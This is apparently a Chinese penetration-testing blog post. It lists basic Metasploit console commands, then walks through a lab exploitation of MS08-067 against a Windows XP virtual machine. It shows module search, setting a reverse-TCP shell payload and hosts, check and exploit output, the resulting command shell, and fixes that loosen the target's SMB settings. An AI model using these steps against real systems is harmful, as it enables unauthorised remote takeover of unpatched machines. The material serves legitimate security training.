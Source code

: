 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      MSF 渗透测试2    # 标题 
subtitle:      #副标题
date:       2020-07-29        # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - 渗透测试
    - 工具使用
  
--- 
```


## Metasploit渗透测试

#### 基础

1. show exploits

	显示Metasploit框架中所有可用的渗透攻击模块

2. show auxiliary

	显示所有辅助模块及其用途。Metasploit框架中，辅助模块可以是扫描器、拒绝服务攻击工具、Fuzz测试器等

3. show options

	参数（options）是保证Metasploit框架中各个模块正确运行所需的各种设置。当选择一个模块并输入show options后，会列出这个模块所需的各种参数。

4. back

	输入back命令会返回Metasploit的上一个状态。

5. search 

	查找某个特定的渗透攻击、辅助或攻击载荷模块。

6. use

	使用use命令加载模块。

7. show options

	在已选择模块的命令提示符下，输入show options显示模块所需的参数。

8. show payloads

	Metasploit只会将与当前模块兼容的攻击载荷显示出来。

9. set、unsetg

	Metasploit模块中的参数只有两个状态：已设置（set）和未设置（unset）。有些参数被标记为必填项（required），这样的参数必须手工设置并处于启动状态。输入show options查看哪些参数是必填项；set对某个参数进行设置（同时启用该参数）；unset禁用相关参数。

10. show targets

	Metasploit的渗透攻击模块通常可以列出受到漏洞影响的目标系统的类型。

11. info

	info + 模块名显示此模块详细信息、参数说明以及所有可用的目标操作系统（若已选择某个模块，直接输入info）.

12. setg、unsetg

	setg 和unsetg能对全局参数进行设置或清除。如：LHOST

13. save

	将当前设置的值保存下来，在下次启动MSF终端时还可以使用这些设置值。

## MS08_067 网络服务器攻击渗透

**摘要**

此安全更新解决了服务器服务中一个秘密报告的漏洞。 如果用户在受影响的系统上收到特制的 RPC 请求，则该漏洞可能允许远程执行代码。 在 Microsoft Windows 2000、Windows XP 和 Windows Server 2003 系统上，攻击者可能未经身份验证即可利用此漏洞运行任意代码。 此漏洞可能用于进行蠕虫攻击。 防火墙最佳做法和标准的默认防火墙配置有助于保护网络资源免受从企业外部发起的攻击。

对于 Microsoft Windows 2000、Windows XP 和 Windows Server 2003 的所有受支持版本，此安全更新的等级为“严重”；对于 Windows Vista、Windows Server 2008 和 Windows 7 Beta 的所有受支持版本，此安全更新的等级为“重要”。 有关详细信息，请参阅本节中“受影响和不受影响的软件”小节。

测试环境： 

* 靶机： Windows XP Service Pack3 (IP: 192.168.2.128)

* 攻击机： kali (IP: 192.168.2.131)

使用nmap可以检测到漏洞

	nmap --script=vuln 192.168.2.128

搜索MS08——067相关模块

```
msf5 > search MS08_067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

使用并进入该模块

```
msf5 > use exploit/windows/smb/ms08_067_netapi 
[*] Using configured payload generic/shell_reverse_tcp

```

显示所需配置参数

	show options

显示对应可用payload

	show payloads 

设置payload

	set payload generic/shell_reverse_tcp     # #设置攻击载荷，反弹式shell

设置靶机和攻击机参数

```
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 192.168.2.128
RHOSTS => 192.168.2.128
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.2.131
LHOST => 192.168.2.131

```

显示该漏洞受影响的机器

	show targets

设置攻击机器型号

```
msf5 exploit(windows/smb/ms08_067_netapi) > set target Windows XP SP3 Chinese - Simplified (NX)
target => Windows XP SP3 Chinese - Simplified (NX)
```

也可根据自己需求设置其他参数。

使用`check`检查楼否可利用

```
msf5 exploit(windows/smb/ms08_067_netapi) > check
[+] 192.168.2.128:445 - The target is vulnerable.
```

用`exploit`开始攻击

```
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] 192.168.2.128:445 - Attempting to trigger the vulnerability...
[*] Command shell session 2 opened (192.168.2.131:4444 -> 192.168.2.128:1035) at 2020-07-29 19:11:49 +0800



C:\WINDOWS\system32>whoami
whoami
'whoami' �����ڲ����ⲿ���Ҳ���ǿ����еĳ���
���������ļ���


C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter ��������:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.2.128
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.2.2

Ethernet adapter Bluetooth ��������:

        Media State . . . . . . . . . . . : Media disconnected

```

可以看到已经成功控制了靶机。

这里有两个容易出现的错误。

1. **连接错误**：

	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.2.128:445).
	[*] Exploit completed, but no session was created.
	```

	原因： 445端口没开放，即服务没启动。	

	解决方法：

	* 可以打开cmd,输入`net share`,会询问你是否开启服务，默认回车开启即可。
	* `win + r`输入`services.mcs`，打开`server`服务即可。

2. **登陆失败**
	
	```
	msf5 exploit(windows/smb/ms08_067_netapi) > exploit

	[*] Started reverse TCP handler on 192.168.2.131:4444 
	[-] 192.168.2.128:445 - Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
	[*] Exploit completed, but no session was created.
	```

	解决方法：

	* `win + r`打开`gpedit.msc`组策略管理，依次找到`本地计算机策略 - >计算机配置 - > Windows设置 - >安全设置 - >本地策略 - >安全选项`
	
	修改`网络访问：本地帐户的共享和安全模式`为`经典 - 本地用户以自己的身份验证`

	![amPNqO.png](https://s1.ax1x.com/2020/07/29/amPNqO.png)


## MS08_010 浏览器攻击渗透

	